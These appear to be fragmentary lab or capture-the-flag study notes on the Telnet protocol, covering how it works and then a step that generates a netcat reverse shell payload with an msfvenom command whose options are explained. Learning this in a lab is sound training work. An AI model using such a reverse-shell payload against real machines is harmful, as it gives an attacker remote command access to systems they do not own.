

Telnet
- Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server
- The telnet client will establish a connection with the server
-
- the client will then become a virtual terminal- allowing you to interact with the remote host
- Telnet sends all messages in clear text and has no specific security mechanisms
-
- in many applications and services, Telnet has been replaced by SSH in most implementations.
- The user connects to the server by using the Telnet protocol
-
- telnet [ip] [port]
- Enumeration


- Exploitation


 (telnet)
(telnet)- . . .

- We're going to generate a reverse shell payload using msfvenom
- This will generate and encode a netcat reverse shell for us
- Here's our syntax:
- msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
-
- -p = payload
- lhost = our local host IP address
- lport = the port to listen on
- R = export the payload in raw format